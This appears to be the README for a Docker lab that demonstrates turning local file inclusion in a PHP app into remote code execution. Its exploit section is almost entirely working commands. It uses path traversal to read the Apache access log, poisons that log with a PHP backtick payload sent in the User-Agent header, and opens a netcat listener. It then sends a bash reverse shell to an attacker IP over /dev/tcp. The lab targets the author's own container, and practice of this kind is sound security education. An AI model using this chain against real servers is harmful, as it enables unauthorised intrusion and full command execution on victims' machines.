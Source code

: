 # How to use

## Setup

### Build

```sh
docker build . -t lfi-rce-demo:v1.2
```

### Start container

```sh
docker run --rm -t -p 8086:80 lfi-rce-demo:v1.2
```

**Note**: Use `<CTRL+C>` to terminate

## Exploit

#### Use path traversal to display Apache logs: `/var/log/apache2/access.log`

```sh
curl http://localhost:8086/index.php?log=../../../../../var/log/apache2/access.log
```

#### Issue 1 request to the web app, setting the User Agent to the following:

```php
<?= `$_GET[0]` ?>
```

E.g.:

```sh
curl http://localhost:8086 -H 'User-Agent: <?= `$_GET[0]` ?>'
```

#### Create a listening instance of necat on your attack box

```sh
nc -vlp 4444
```

#### Check if you can execute shell commands on the victim box

E.g.:

```sh
curl 'http://localhost:8086/index.php?log=../../../../../var/log/apache2/access.log&0=ps+aux'
```

#### Create a reverse shell, using LoL approach

E.g.:

```sh
curl 'http://localhost:8086/index.php?log=../../../../../var/log/apache2/access.log&0=bash+-c+"sh+-i+%3e%26+/dev/tcp/192.168.1.5/4444+0%3e%261"'
```

#### Notes

- Replace `localhost` with the Docker daemon address (victim box).
- Replace `192.168.1.5` with your attack box IP address.

